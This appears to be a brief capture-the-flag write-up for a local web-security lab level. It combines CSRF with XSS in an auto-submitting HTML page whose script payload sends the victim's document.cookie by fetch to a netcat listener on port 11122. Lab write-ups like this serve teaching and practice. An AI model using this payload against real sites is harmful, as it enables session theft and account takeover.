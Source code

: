 This level is very similar to the previous level, it's also an XSS-CSRF attack, except this time, we'll need to send the cookie of the user to our `netcat` server. So it's basically like CSRF 3 + XSS 7.

We can just modify our CSRF 3's XSS payload with the XSS 7 payload. We grab the cookie and send it to our `netcat` server listening on port 11122.

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack</title>
</head>
<body>
    <form method="GET" action="http://challenge.localhost/ephemeral">
<input type="hidden" name="msg" value='<script>fetch("http://127.0.0.1:11122",{method:"POST",body:document.cookie})</script>'>
    </form>

    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```